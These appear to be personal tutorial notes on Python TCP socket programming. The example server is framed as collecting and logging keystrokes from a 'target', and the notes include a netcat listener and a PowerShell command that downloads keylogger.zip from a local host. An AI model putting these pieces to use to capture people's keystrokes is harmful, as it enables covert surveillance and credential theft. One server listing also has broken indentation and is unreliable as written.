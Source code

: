 #python #sockets #programming 


Socket programming is a way to enable communication between two devices over a network. Allows devices send and receive data through a connection, such devices we refer to as **sockets**. These sockets can communicate using different protocols, but most often TCP or UDP.

Usually used in the context of: **client-server**, still its possible to use socket programming for client to client, and in situations with multiple clients and servers.  


**Socket properties:**
- IP address 
- Port number. 
- Listen for incoming connections 
- Communicate (Read and write)
- Can be open/closed
- Low-level & flexible 

**Usage:**
- Custom network protocols, real time applications 
- Scenarios requiring fine-grind control over data transmission. 
- Good for transferring files with build in commands for file operations. 


( Client needs the servers IP / Port for it to connect to the server. ) 

Setting up a basic server socket in python:
- It listens for incoming connections. 
- Read keystrokes from target.
- Logs keystrokes

````python 

import socket

def start_server():
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind(("0.0.0.0", 4444))
    server_socket.listen(1)
    print("Server listening on port 4444")

    conn, addr = server_socket.accept()
    print(f"Connection from {addr}")

    with open("received_keystrokes.txt", "a") as file:
        while True:
            data = conn.recv(1024).decode("utf-8")
            if not data:
                break
            print(f"Received: {data}")
            file.write(data)
            file.flush()

    conn.close()
    server_socket.close()

if __name__ == "__main__":
    start_server()
````

**Communication not over LAN:**
- Port Forwarding:
- Dynamic DNS:
- Firewalls:


Server socket:
````python
import socket
# Address family: AF.INET -> IPv4

# Socket type: SOCK_STREAM -> (TCP) Sequenced, reliable, two-way connection-based byte streams

# Creates a new socket object

server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Network interface: '0.0.0.0' -> All network interfaces the device uses

# Port: 54 000 within each network interface

# Spesify network interface and which port we want to listen from.

server_socket.bind(('0.0.0.0', 54000))

# Number of connections the server can handle at once

server_socket.listen(5)

print("Server listening on port 54000")

# Running server and waiting for a connection.

while True:

client_socket, client_addr = server_socket.accept()

print(f"Connection from {client_addr}")

# Listen for data from client.

while True:

data = client_socket.recv(1024)

if not data:

print("No data received.")

break

print(f"Received data: {data.decode('utf.8')}")

#TODO: Save data to file.
# Breaking for inner loop -> close the connection to that client

client_socket.close()
````


Listening for incoming calls from windows on Linux:
```
nc -lvnp 8081
```

Transfere file via HTTP using powershell:
``` PS1

powershell -Command "Invoke-WebRequest -Uri http://192.168.56.101:8000/keylogger.zip -Outfile keylogger.zip

```